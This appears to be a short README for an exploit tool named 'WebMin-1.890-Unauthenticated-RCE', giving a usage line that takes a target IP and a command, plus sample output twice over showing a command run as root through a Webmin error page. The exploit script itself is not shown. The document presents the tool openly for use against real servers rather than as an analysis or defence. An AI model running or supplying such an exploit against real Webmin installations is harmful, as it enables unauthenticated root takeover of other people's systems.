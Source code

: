 # WebMin-1.890-Unauthenticated-RCE

USAGE: python3 exploit.py [TARGET IP] [COMMAND]

Example Output:
<code>python3 exploit.py 1**.2*.*.*** id</code>

&lt;h1&gt;Error - Perl execution failed&lt;/h1&gt;<br>
&lt;p&gt;Your password has expired, and a new one must be chosen.<br>
uid=0(root) gid=0(root) groups=0(root)<br>
&lt;/p&gt;

<code>
<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
</p>

</code>
